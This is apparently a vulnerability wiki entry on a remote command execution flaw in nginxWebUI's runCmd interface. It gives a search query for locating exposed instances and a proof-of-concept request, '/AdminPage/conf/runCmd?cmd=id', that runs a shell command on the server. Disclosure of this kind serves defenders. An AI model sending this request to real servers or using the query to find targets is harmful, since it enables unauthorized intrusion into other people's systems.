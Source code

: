 # nginxWebUI runCmd remote command execution vulnerability

## Vulnerability Description

There is a remote command execution vulnerability in the nginxWebUI runCmd interface. The attacker can obtain server permissions and execute any commands through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">nginxWebUI  </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="nginxwebui" </span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1-6057456.png)

Verify the request package

```php
/AdminPage/conf/runCmd?cmd=id
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1686057565628-a73253da-a91a-4065-9fc0-2ce30caf1e5a.png)